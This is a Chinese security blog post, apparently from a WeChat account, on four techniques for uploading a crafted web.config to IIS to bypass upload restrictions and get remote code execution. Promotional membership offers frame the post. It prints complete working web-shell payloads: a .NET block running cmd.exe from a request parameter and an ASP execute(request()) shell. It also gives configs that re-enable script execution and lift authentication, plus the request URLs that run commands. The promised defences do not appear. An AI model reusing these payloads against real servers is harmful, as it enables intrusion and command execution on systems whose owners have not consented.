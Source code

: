 #  技术精华 | .NET 四种方法上传 web.config 绕过限制实现 RCE   
专攻.NET安全的  dotNet安全矩阵   2025-06-02 00:40  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在 .NET Web 应用安全领域，web.config 文件不仅仅是一个普通的配置文件，还能成为攻击者绕过安全限制、执行任意代码的重要工具。本篇文章将系统性地介绍 **四种 基于 web.config 绕过限制并执行代码的技术**  
，结合真实案例，深入剖析其利用方式及相应防御措施。  
  
**01. 端午假期专属福利**  
  
  
  
限时优惠  
：  
前10名新成员可享 **40元专属立减券**  
，助您轻松加入国内顶级.NET安全学  
习圈，  
解锁**国内顶尖，名额有限，先到先得！**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Yich2FQBUQicibTAuicnedSbUMibkVsdV3Bb9Xue6k54qmibibibHXIicD12M68qJI1vCrRA5vapdB6TGKtabQ/640?wx_fmt=png&from=appmsg "")  
  
**02.作为.NET脚本执行**  
  
  
  
当 IIS 服务器 **仅支持 .NET 运行环境**  
，且无法上传 .aspx、.asmx、.soap 等扩展名的文件时，攻击者可以尝试上传特制的 web.config，让其作为 .NET 脚本运行。  
## 2.1 核心原理  
  
攻击者可以上传以下 web.config 文件，使其 .config 文件扩展名被当作 .aspx 解析，并执行动态 .NET 代码：  
  
```
<configuration><system.web><compilation defaultLanguage="cs"><buildProviders><add extension=".config" type="System.Web.Compilation.PageBuildProvider"/></buildProviders></compilation><httpHandlers><add path="web.config" type="System.Web.UI.PageHandlerFactory" verb="*"/></httpHandlers></system.web></configuration><%if(flag){System.Diagnostics.Process process =newSystem.Diagnostics.Process();    process.StartInfo.FileName ="cmd.exe";string str = Request["c"];    process.StartInfo.Arguments ="/c "+ str;    process.StartInfo.RedirectStandardOutput =true;    process.StartInfo.RedirectStandardError =true;    process.StartInfo.UseShellExecute =false;    process.Start();string str2 = process.StandardOutput.ReadToEnd();    Response.Write("<pre>"+ str2 +"</pre>");    Response.Flush();    Response.End();}%>
```  
  
  
攻击者访问以下 URL，可直接执行系统命令：upload/web.config?c=tasklist，如下图所示  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Yich2FQBUQicibTAuicnedSbUMibMRGSiciaQStiaNc6p6mXM8TGTYSAdugHfbjR3qMb4ooEdibUW6umPLyPDw/640?wx_fmt=png&from=appmsg "")  
  
注意：web.config必须上传到 **站点根目录**  
，否则可能无法解析。  
  
**03.作为ASP脚本运行**  
  
  
  
如果 IIS 支持 ASP 运行环境，但无法上传 .asp 文件，攻击者可以上传 web.config，使其作为 ASP 代码解析。上传以下 web.config，让 .config 文件扩展名被当作 .asp 解析，并执行 ASP 代码：  
  
```
<configuration><system.webServer><handlers accessPolicy="Read, Script, Write"><add name="web_config" path="*.config" verb="*"                 modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll"                 resourceType="Unspecified" requireAccess="Write" preCondition="bitness64"/></handlers><security><requestFiltering><fileExtensions><remove fileExtension=".config"/></fileExtensions><hiddenSegments><remove segment="web.config"/></hiddenSegments></requestFiltering></security></system.webServer></configuration><!--<%Response.write("->"&1+2&"<-")on error resume nextifexecute(request("dotnet"))<>""thenexecute(request("dotnet"))%>-->
```  
  
  
攻击者访问以下 URL，可执行任意 ASP 代码，页面返回当前服务器的系统时间，证明代码执行成功。  
  
```
/upload/web.config?dotnet=response.write(now())
```  
  
  
注意：服务器 必须支持 ASP，否则无法解析 .config 作为 ASP 代码。  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Yich2FQBUQicibTAuicnedSbUMibqC2fD81ibHZdGvMQGQHXHmrevXVEcuY4OG7JxWlxlk5OGZeqINU5jbQ/640?wx_fmt=png&from=appmsg "")  
  
**04.绕过安全策略限制**  
  
  
  
某些情况下，管理员会通过 web.config 禁止 uploads/ 目录执行脚本，但仍允许上传文件。攻击者可以上传新的 web.config 重新启用脚本执行权限。上传以下 web.config，重新开放 uploads/ 目录的脚本执行权限：  
  
```
<configuration><system.webServer><handlers accessPolicy="Read, Write"></handlers></system.webServer></configuration>
```  
  
  
攻击者上传 Shell2asmx.soap 后被禁止运行，如下图所示。  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Yich2FQBUQicibTAuicnedSbUMib6AhyFN70qk5Iumz67zRFSOdaOaic5A65VTUOJDnib0j4bB2hHRhV2Tyw/640?wx_fmt=png&from=appmsg "")  
  
但此时修改accessPolicy策略，添加写入、执行、运行脚本权限。即accessPolicy="Read,Write,Execute,Script"，再向uploads目录下上传新配置的这个web.config，即可打开正常界面，如下图所示  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Yich2FQBUQicibTAuicnedSbUMibG0WmQdW1cKRRrI8ibNqlhmw77zN5Wt0BnyjcZcvwAlFEKxHpzMFcbKg/640?wx_fmt=png&from=appmsg "")  
  
**05. 绕过身份认证**  
  
  
  
.NET web.config 可用于身份认证，默认会拒绝匿名用户访问。只有已登录用户才能访问该目录，一切的匿名访问都被重定向至登录页，重定向的URL地址如下所示。  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Yich2FQBUQicibTAuicnedSbUMibUdRartxQHGicuXBmdiblj1eE3FGAzEgiassjc1TFjvVEtqDMCALE13oYQ/640?wx_fmt=png&from=appmsg "")  
  
最新研究成果：攻击者可以上传 web.config 重新开放目录权限，并执行任意代码。上传以下 web.config，绕过身份认证：  
  
```
<configuration><system.web><authorization><allow users="*"/></authorization></system.web></configuration>
```  
  
  
然后访问 URL 执行系统命令：  
  
```
/upload/web.config?dotnet=Response.Write(GetObject("new:72C24DD5-D70A-438B-8A42-98424B88AFB8").exec("cmd.exe /c tasklist").StdOut.ReadAll())
```  
  
  
该请求会利用 Response.Write 输出 cmd.exe /c tasklist 的执行结果，即当前系统的进程列表，如下图所示。  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Yich2FQBUQicibTAuicnedSbUMibJVSuPva8m36VyeNhuPX5p3H1yzmAia7ibsATvNN11RPeOrHAibonUr9Kg/640?wx_fmt=png&from=appmsg "")  
  
  
**06. 端午假期专属福利**  
  
  
  
限时优惠  
：  
前10名新成员可享 **40元专属立减券**  
，助您轻松加入国内顶级.NET安全学  
习圈，  
解锁**国内顶尖 .NET 安全知识库**  
，技术干货一网打尽！  
与行业大咖同行，探讨实战经验！  
恰逢迎接端午节，星球福利送给粉丝们，使用微信扫一扫，扫描下方代金券即可加入星球。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Yich2FQBUQicibTAuicnedSbUMibkVsdV3Bb9Xue6k54qmibibibHXIicD12M68qJI1vCrRA5vapdB6TGKtabQ/640?wx_fmt=png&from=appmsg "")  
  
  
